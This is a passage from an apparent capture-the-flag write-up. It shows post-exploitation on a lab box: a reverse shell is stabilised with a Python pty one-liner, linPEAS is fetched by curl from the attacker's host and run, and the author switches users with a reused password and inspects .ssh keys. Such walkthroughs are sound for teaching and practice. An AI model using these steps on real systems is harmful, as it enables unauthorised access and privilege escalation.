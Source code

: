 Since this is an unstable shell so let's make this a stable one, 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL + Z
stty raw -echo; fg
stty rows 56 columns 238
```

I was trying to download the linpeas file on the system using `wget`, but can't since the command is not installed. So I tried to download the file using `curl` command and got successful,

```bash
curl http://10.9.11.12:8000/linPEAS -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Scrolling down the result of linpeas, I can see that there is a web.flag file in `/usr/share/httpd` path,

![image](https://user-images.githubusercontent.com/67465230/187019638-6f196200-a387-4123-b4df-614309157c59.png)

Now, navigating to home directory and there we can see that there are 2 directories of users, i.e. james and paradox,

![image](https://user-images.githubusercontent.com/67465230/187019645-b693293d-3d78-4b07-a520-a0958151fba7.png)

I tried to change the directory and got permission denied, and tried to switch to james user and got Authentication failure as well,

```bash
cd james
su james
```

![image](https://user-images.githubusercontent.com/67465230/187019652-1a2e4197-72d5-46c5-9ca3-a8779b49d466.png)

Then I tried to switch to paradox user using the password we get into the system and we successfully switched to paradox user,

```bash
su paradox
id
```

![image](https://user-images.githubusercontent.com/67465230/187019656-f9c74bc6-292c-41f6-902e-57870ba65602.png)

listing the directory of paradox user, we can see the .ssh directory, 

![image](https://user-images.githubusercontent.com/67465230/187019673-f51de7ed-e697-40f8-8e9c-f71e25a917c1.png)

I navigated into the .ssh directory and found that there are 2 keys, namely authorized_keys and id_rsa.pub key, 

![image](https://user-images.githubusercontent.com/67465230/187019680-ab24900b-a69e-4bcd-a23a-0fb59a51bb53.png)
